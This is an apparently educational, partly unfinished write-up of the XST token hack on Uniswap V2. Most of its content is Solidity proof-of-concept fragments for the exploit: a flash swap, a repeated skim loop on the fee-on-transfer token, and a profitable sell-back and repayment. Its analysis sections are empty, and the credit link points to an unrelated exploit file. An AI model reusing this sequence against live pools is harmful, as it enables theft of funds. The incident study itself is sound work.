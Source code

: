 # XST

## What's XST?


## Amount stolen
27.13 WETH


## Vulnerability



## Analysis



### Exploited code

```solidity
   code here
```

# proof of concept (PoC) 



#### get values




![XTS Image](../images/XTS/label.drawio.png)

```solidity
        amount = WETH.balanceOf(address(Pair2));
        Pair1.swap(amount * 2, 0, address(this), " ");
```


```solidity
uint256 amountSellWETH = WETH.balanceOf(address(this));
(uint256 reserve0, uint256 reserve1,) = Pair2.getReserves(); // r0 : XST r1 WETH
```

![XTS Image](../images/XTS/before.drawio.png)




## calculate swap

![XTS Image](../images/XTS/para1.drawio.png)

![XTS Image](../images/XTS/formula.drawio.png)
```solidity
  uint256 amountOutXST = amountSellWETH * 997 * reserve0 / (reserve1 * 1000 + amountSellWETH * 997);
```




swap ST tokens for WETH tokens in the liquidity pool of Uniswap XST

```solidity
  WETH.transfer(address(Pair2), amountSellWETH);
  Pair2.swap(amountOutXST, 0, address(this), "");
```


#### skim

The skim function in Uniswap V2 is used to claim accumulated tokens from a liquidity pool without removing liquidity. 
It's often used to retrieve additional tokens accumulated due to various operations, such as swaps.
   

```solidity
     XST.transfer(address(Pair2), XST.balanceOf(address(this)) / 8);   //(1/8th) of the XST balance held by the contract to the Uniswap pair, adding more liquidity to the pool.
        for (int256 i = 0; i < 15; i++) {
            Pair2.skim(address(Pair2));
        }

     Pair2.skim(address(this));
```


After skimming the tokens we transfer the XST tokens to the liquitiy pool, wich allows us to manipulate the price


```solidity
   // sell XST to WETH
          // XST is SupportFeeOn Token
          XST.transfer(address(Pair2), XST.balanceOf(address(this)));
```

![XTS Image](../images/XTS/liq.drawio.png)




## Calculate swap

![XTS Image](../images/XTS/para2.drawio.png)

```solidity
   uint256 amountOutWETH = amountSellXST * 997 * reserve4 / (reserve3 * 1000 + amountSellXST * 997);
```


## Swap for profit

```solidity
   Pair2.swap(0, amountOutWETH, address(this), "");
```


## Repay flashloan

```solidity
   WETH.transfer(address(Pair1), (amount * 2) * 1000 / 997 + 1000);
```





![XTS Image](../images/XTS/after.drawio.png)


## profit


![XTS Image](../images/XTS/profit.drawio.png)





**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/88mph_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
